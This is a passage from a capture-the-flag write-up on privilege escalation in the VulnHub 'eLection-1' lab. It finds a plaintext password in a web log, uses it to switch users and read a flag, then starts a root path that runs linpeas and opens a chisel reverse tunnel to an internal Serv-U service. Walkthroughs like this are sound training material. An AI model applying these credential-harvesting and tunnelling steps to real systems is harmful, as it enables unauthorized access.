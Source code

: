 	![](vmware_kII93Vlmd4.gif)

	

# Privilege Escalation

## Love - Via Creds Found

1. View files in `/var/www/html`, look for files that could contain credentials

	``` 
	www-data@election:/var/www/html$ find $(pwd)
	...
	/var/www/html/election/admin/logs
	/var/www/html/election/admin/logs/system.log
	...
	```

2. View `system.log`

	``` 
	www-data@election:/var/www/html/election/admin/logs$ cat system.log 
	[2020-01-01 00:00:00] Assigned Password for the user love: P@$$w0rd@123
	[2020-04-03 00:13:53] Love added candidate 'Love'.
	[2020-04-08 19:26:34] Love has been logged in from Unknown IP on Firefox (Linux).
	[2022-02-14 21:39:13] Love has been logged in from Unknown IP on Chrome (Linux).
	www-data@election:/var/www/html/election/admin/logs$ 
	```

	- love:`P@$$w0rd@123`
3. Switch to love w/  love:`P@$$w0rd@123`
	![](Pasted%20image%2020220215001501.png)
4. User Flag

	``` 
	love@election:~$ cat /home/love/Desktop/user.txt
	cd38ac698c0d793a5236d01003f692b0
	love@election:~$ 
	```

## Root - Via Serv-U < 15.1.7 Exploit

1. Ran linpeas 
	![](Pasted%20image%2020220215004322.png)
	- `TCP/43958`
2. Open up the internal service (`TCP/43958`) w/ chisel
	- Kali

		``` 
		┌──(root💀kali)-[~/vulnHub/eLection-1]
		└─# chisel server --reverse --port 1337
		```
